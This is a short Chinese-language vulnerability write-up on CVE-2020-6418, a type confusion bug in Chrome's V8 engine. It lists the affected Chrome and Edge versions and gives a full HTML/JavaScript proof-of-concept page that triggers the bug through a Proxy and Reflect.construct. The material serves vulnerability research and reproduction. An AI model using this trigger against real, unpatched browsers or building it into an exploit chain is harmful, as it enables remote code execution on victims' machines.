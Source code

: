 （CVE-2020-6418）Chrome 远程代码执行漏洞
========================================

一、漏洞简介
------------

在Google Chrome浏览器80.0.3987.122以下与Microsoft
Edge浏览器80.0.361.62以下的版本中，开源JavaScript和WebAssembly引擎V8中存在一个类型混淆漏洞（CVE-2020-6418），可能导致攻击者非法访问数据，从而执行恶意代码。

二、漏洞影响
------------

Google Chrome浏览器80.0.3987.122以下与Microsoft
Edge浏览器80.0.361.62以下的版本中

三、复现过程
------------

### poc

    <!DOCTYPE html>
    <head>
        <script>
            ITERATIONS = 10000
            TRIGGER = false

            function f(a,p){
                return a.pop(Reflect.construct(function(){}, arguments, p))
            }

            let a;
            let p = new Proxy(Object, {
                get: function(){
                    if (TRIGGER){
                        a[2] = 1.1;
                    }
                    return Object.prototype;
                }
            });
            for(let i = 0; i < ITERATIONS; i++){
                let isLastIteration = i==ITERATIONS-1;
                a = [0,1,2,3,4];
                if(isLastIteration)
                    TRIGGER = true;
                console.log(f(a,p));
            }
            console.log(a)
        </script>
    </head>
    <body>
        CVE-2020-6418 PoC!
    </body>

参考链接
--------

> https://github.com/ChoKyuWon/CVE-2020-6418/blob/master/poc.html
